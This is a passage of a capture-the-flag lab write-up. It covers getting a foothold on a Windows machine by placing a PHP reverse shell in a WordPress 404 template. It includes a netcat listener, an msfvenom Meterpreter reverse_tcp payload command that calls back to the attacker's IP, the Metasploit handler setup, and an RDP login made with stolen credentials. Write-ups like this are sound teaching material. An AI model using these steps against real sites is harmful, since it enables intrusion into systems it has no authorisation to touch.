Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.

<center>

![5683c9ad5042de27f889314759a5ad02.png](/Retro/_resources/5683c9ad5042de27f889314759a5ad02-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.

<center>

![d93a8e9449266c751dabafddae677f8d.png](/Retro/_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](/Retro/_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)

</center>

Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.

<center>

![99aeceb1a7c252ee0fa0338c6361e335.png](/Retro/_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)

</center>

We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.

<center>

![7ca759846f47cf684397cfa3868ea91d.png](/Retro/_resources/7ca759846f47cf684397cfa3868ea91d-1.png)

</center>

Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.

<center>

![011e8b21d3b0f57071380f0fcbb53c55.png](/Retro/_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)

</center>

At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.

<center>

![b5bd1fb1040d70714f3896ff0e8fdb32.png](/Retro/_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)

</center>